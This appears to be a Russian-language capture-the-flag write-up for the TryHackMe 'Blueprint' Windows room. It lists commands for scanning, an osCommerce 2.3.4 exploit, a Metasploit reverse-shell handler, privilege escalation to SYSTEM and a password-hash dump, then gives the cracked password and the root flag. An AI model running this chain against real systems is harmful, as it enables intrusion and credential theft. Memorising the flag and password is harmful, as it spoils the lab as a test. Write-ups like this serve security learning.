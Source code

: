 Blueprint

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната []() 

Всего 1 заданиe:
## Задание 1
Хватит ли у вас сил взломать эту машину с Windows?

It might take around 3-4 minutes for the machine to boot.

### Ответьте на вопросы ниже
Расшифрован хэш NTLM пользователя "Lab"
```commandline
sudo nmap -sS -sV -sC -Pn <IP>
gobuster dir -u http://<IP> - w /usr/share/wordlists/dirb/big.txt
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>
http://<ip>
http://<ip>:8080
searchsploit oscommerce 2.3.4
./searchsploit -m 44374
msfconsole -q
use multi/handler
set payload windows/shell/reverse_tcp
set lhost <IP>
run
python exploit.py 
whoami
nt authority\system
sessions
sessions -u 1
sessions
sessions 2
getuid
hashdump
```
```commandline
googleplus
```
корень.txt
```commandline
cd /users/administrator/desktop
ls
cat root.txt.txt
```
```commandline
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)